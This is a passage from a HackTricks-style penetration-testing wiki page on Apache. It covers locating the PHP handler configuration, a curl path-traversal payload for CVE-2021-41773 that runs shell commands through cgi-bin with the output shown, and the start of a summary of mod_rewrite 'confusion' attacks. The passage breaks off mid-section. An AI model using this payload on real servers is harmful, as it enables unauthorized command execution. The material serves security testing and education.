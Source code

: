 # Apache

{{#include ../../banners/hacktricks-training.md}}

## Executable PHP extensions

Check which extensions is executing the Apache server. To search them you can execute:

```bash
 grep -R -B1 "httpd-php" /etc/apache2
```

Also, some places where you can find this configuration is:

```bash
/etc/apache2/mods-available/php5.conf
/etc/apache2/mods-enabled/php5.conf
/etc/apache2/mods-available/php7.3.conf
/etc/apache2/mods-enabled/php7.3.conf
```

## CVE-2021-41773

```bash
curl http://172.18.0.15/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh --data 'echo Content-Type: text/plain; echo; id; uname'
uid=1(daemon) gid=1(daemon) groups=1(daemon)
Linux
```

## Confusion Attack <a href="#a-whole-new-attack-confusion-attack" id="a-whole-new-attack-confusion-attack"></a>

These types of attacks has been introduced and documented [**by Orange in this blog post**](https://blog.orange.tw/2024/08/confusion-attacks-en.html?m=1) and the following is a summary. The "confusion" attack basically abuses how the tens of modules that work together creating a Apache don't work perfectly synchronised and making some of them modify some unexpected data can cause a vulnerability in a later module.

### Filename Confusion

#### Truncation

The **`mod_rewrite`** will trim the content of `r->filename` after the character `?` ([_**modules/mappers/mod_rewrite.c#L4141**_](https://github.com/apache/httpd/blob/2.4.58/modules/mappers/mod_rewrite.c#L4141)). This isn't totally wrong as most modules will treat `r->filename` as an URL. Bur in other occasions this will be treated as file path, which would cause a problem.

- **Path Truncation**

It's possible to abuse `mod_rewrite` like in the following rule example to access other files inside the file system, removing the last part of the expected path adding simply a `?`:
